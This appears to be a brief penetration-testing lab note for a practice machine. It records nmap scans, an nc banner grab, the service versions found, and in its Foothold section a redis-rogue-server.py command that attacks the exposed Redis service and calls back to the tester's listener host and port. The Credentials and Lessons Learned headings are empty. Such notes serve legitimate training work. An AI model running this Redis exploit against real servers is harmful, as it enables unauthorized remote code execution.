 ### Enumeration
```
IP=192.168.218.69
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80,8080,6379,27017 -A $IP
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 22
	- OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
- 80
	- nginx 1.10.3
- 8080
	- http-proxy
- 6379
	- Redis key-value store 5.0.9
- 27017
### Foothold
- 6379
	- python3 redis-rogue-server.py --rhost 192.168.218.69 --lhost 192.168.45.195 --lport 22
	- ![[Pasted image 20240717162023.png]]
### Credentials
### Lessons Learned